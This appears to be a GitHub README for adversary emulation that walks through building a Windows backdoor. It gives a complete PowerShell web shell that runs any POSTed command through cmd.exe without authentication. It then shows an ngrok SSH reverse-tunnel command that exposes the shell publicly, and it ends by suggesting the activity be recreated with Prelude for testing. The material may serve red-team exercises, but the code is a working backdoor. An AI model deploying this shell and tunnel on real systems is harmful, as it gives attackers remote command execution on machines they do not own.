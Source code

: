 ### Create a Web Shell back Door, Connect Over Ngrok SSH Gateway.

[Ngrok SSH Gateway](https://ngrok.com/docs#ssh-gateway)

### Create Your SSH Keys On Windows.  Upload Your Keys to ngrok

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (C:\Users\mobile/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in C:\Users\mobile/.ssh/id_rsa.
Your public key has been saved in C:\Users\mobile/.ssh/id_rsa.pub.
```

![Screen Shot 2021-06-25 at 8 42 53 PM](https://user-images.githubusercontent.com/83469949/123499713-efb12580-d5f5-11eb-8c84-6caa656e36f1.png)

### Execute Simple Web Shell

```
<#
  .SYNOPSIS
  
  Simple Web Shell over HTTP
  
#>

$Server = '127.0.0.1' #Listening IP. Change This. Or make it a parameter, I don't care ;-)

function Receive-Request {
   param(      
      $Request
   )
   $output = ""
   $size = $Request.ContentLength64 + 1   
   $buffer = New-Object byte[] $size
   do {
      $count = $Request.InputStream.Read($buffer, 0, $size)
      $output += $Request.ContentEncoding.GetString($buffer, 0, $count)
   } until($count -lt $size)
   $Request.InputStream.Close()
   $cmd = $output.Split("=")
   $OutputVariable = &{ cmd.exe /c $cmd[1].Split("+") | Out-String}
   return $OutputVariable
}

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add('http://+:8080/') 

$listener.Start()
'Listening ...'
while ($true) {
    $context = $listener.GetContext() # blocks until request is received
    $request = $context.Request
    $response = $context.Response
	$hostip = $request.RemoteEndPoint
	
	if ($request.Url -match '/shellPost$' -and ($request.HttpMethod -eq "POST") ) { 
		
		$message = Receive-Request($request);
		
	}
    if ($request.Url -match '/shell$' -and ($request.HttpMethod -eq "GET")) {
		$enc = [system.Text.Encoding]::UTF8
		$response.ContentType = 'text/html'
		$shellcode = '<form action="/shellPost" method="POST" >
					  Command:<br>
					  <input type="text" name="Command" value="ipconfig.exe"><br>
					  <input type="submit" value="Submit">
					</form>'
		
		$buffer = $enc.GetBytes($shellcode)		
		$response.ContentLength64 = $buffer.length
		$output = $response.OutputStream
		$output.Write($buffer, 0, $buffer.length)
		$output.Close()
		continue
	}
    

    [byte[]] $buffer = [System.Text.Encoding]::UTF8.GetBytes($message)
    $response.ContentLength64 = $buffer.length
    $output = $response.OutputStream
    $output.Write($buffer, 0, $buffer.length)
    $output.Close()
}

$listener.Stop()
```

Note the local port your Web Shell is listening to is 8080.  

### Create your ngrok tunnel To expose the local web shell externally.

`ssh -R webshell.ngrok.io:80:localhost:8080 tunnel.us.ngrok.com http`

### Connect to webshell.ngrok.io/shell

![Screen Shot 2021-06-25 at 8 46 08 PM](https://user-images.githubusercontent.com/83469949/123499793-68b07d00-d5f6-11eb-9401-8ec32bf22b4b.png)

### Now recreate this activity , and delivery and test with Prelude.



